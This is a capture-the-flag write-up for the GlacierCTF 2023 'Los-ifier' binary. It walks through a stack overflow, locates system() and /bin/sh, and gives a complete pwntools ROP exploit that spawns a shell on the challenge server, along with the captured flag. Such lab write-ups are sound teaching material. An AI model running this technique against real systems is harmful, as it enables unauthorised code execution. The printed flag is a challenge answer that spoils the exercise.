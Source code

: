 # Los-ifier [90 Solves]

## Description

> Normal binary for normal people.
>
> authors: PaideiaDilemma & huksys
>
> `nc chall.glacierctf.com 13392`
>
> Attachments: Losifier.tar.gz

```console
$ tar ztf Losifier.tar.gz
Losifier/
Losifier/Dockerfile
Losifier/chall
```

## Flag

gctf{l0ssp34k_UwU_L0v3U}

## Solution

```console
$ file chall
chall: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=d0603ba281b2372084e4f2a9250bd5b79e916b91, for GNU/Linux 4.4.0, not stripped

$ checksec chall
[*] '/root/ctf/GlacierCTF_2023/intro/Losifier/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

ROP

Looking at how to work in chall binary, RIP is controllable by setting offset 85 (0x55).

`system()` function:

```console
$ readelf -s chall | grep system
   156: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS system.o
   157: 0000000000404660   879 FUNC    LOCAL  DEFAULT    7 do_system
   591: 000000000047cdd8    10 OBJECT  LOCAL  DEFAULT    9 system_dirs
  1066: 0000000000404ae0    45 FUNC    WEAK   DEFAULT    7 system
  1668: 0000000000404ae0    45 FUNC    GLOBAL DEFAULT    7 __libc_system
```

`/bin/sh`:

```console
$ strings -a -t x chall | grep /bin/sh
  7800e @@/bin/sh
  784d9 /bin/sh
```

- [x64_64 register mapping for library call](https://en.wikibooks.org/wiki/X86_Assembly/Interfacing_with_Linux#library_call)

  > | 1st parameter | 2nd parameter | 3rd parameter | 4th parameter | 5th parameter | 6th parameter |
  > |---------------|---------------|---------------|---------------|---------------|---------------|
  > | rdi           | rsi           | rdx           | rcx           | r8            | r9            |

Set `/bin/sh` to the rdi, call the `system()` function, and a shell pop up.

ROP Gadget:

```console
$ ROPgadget --binary ./chall | grep -E '(: ret$|pop rdi ; ret$)'
0x0000000000402188 : pop rdi ; ret
0x000000000040101a : ret
```

solver.py

```python
from pwn import *

context.terminal = ["tmux", "split-window", "-h"]

elf = ELF("./chall", checksec=False)

ret = 0x40101A
system = 0x404AE0
pop_rdi = 0x402188
binsh = 0x4784D9


def conn() -> pwnlib.tubes:
    if args.REMOTE:
        io = remote("chall.glacierctf.com", 13392)

    elif args.GDB:
        gdbscript = """
        # b *main+73
        # b printf_handler
        # b *printf_handler+134
        b *printf_handler+175
        c
        """
        io = gdb.debug([elf.path], gdbscript=gdbscript)
    else:
        io = elf.process()

    return io


def main():
    io = conn()

    payload = b""
    payload += b"A" * 85

    # payload += p64(0xDEADBEEF)
    payload += p64(ret)

    payload += p64(pop_rdi)
    payload += p64(binsh)

    payload += p64(system)

    io.sendline(payload)
    io.interactive()


if __name__ == "__main__":
    main()
```

result:

```console
$ python3 solver.py REMOTE
[+] Opening connection to chall.glacierctf.com on port 13392: Done
[*] Switching to interactive mode
$ id
uid=1337 gid=1337 groups=1337
$ ls -la
total 764
drwxr-xr-x 1 root root   4096 Nov 23 22:49 .
drwxr-xr-x 1 root root   4096 Nov 25 17:52 ..
-rwxr-xr-x 1 root root 769056 Nov 23 22:19 app
-rw-r--r-- 1 root root     25 Nov 23 22:19 flag.txt
$ cat flag.txt
gctf{l0ssp34k_UwU_L0v3U}
$
[*] Closed connection to chall.glacierctf.com port 13392
```
